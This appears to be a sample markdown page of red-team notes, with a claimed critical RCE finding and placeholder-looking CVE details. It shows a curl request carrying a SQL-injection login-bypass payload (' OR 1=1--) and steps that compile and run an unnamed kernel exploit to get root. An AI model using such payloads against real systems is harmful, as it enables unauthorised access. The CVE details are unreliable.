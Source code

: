 # Red Team Notes Example

> ⚠️ **CRITICAL**: Remote Code Execution vulnerability discovered
> - CVE-2024-1234
> - CVSS Score: 9.8

## Initial Access

Used the following payload to gain access:

```bash
curl -X POST https://target.com/api/v1/auth \
  -H "Content-Type: application/json" \
  --data '{"username": "admin", "password": "' OR 1=1--"}'
```

### Privilege Escalation

> ⚡ **WARNING**: Exercise caution when executing these commands

Found kernel exploit:

```bash
gcc -o exploit exploit.c
./exploit
id # now running as root
```

> 📝 **NOTE**: Remember to collect:
> - System logs
> - Memory dumps
> - Network captures